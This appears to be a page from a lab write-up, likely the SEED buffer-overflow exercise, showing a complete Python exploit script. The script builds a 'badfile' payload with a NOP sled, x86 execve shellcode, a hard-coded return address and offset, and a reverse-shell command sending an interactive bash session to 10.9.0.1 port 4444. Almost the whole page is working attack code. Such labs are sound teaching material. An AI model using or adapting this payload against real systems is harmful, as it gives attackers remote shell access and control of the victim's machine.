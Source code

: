 
### Shell Code
```
#!/usr/bin/python3
import sys

shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i >& /dev/tcp/10.9.0.1/4444 0<&1 2>&1          *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)             # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffd248 + 8   # Change this number 
offset = 116              # Change this number 

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```


![alt text](image-10.png)

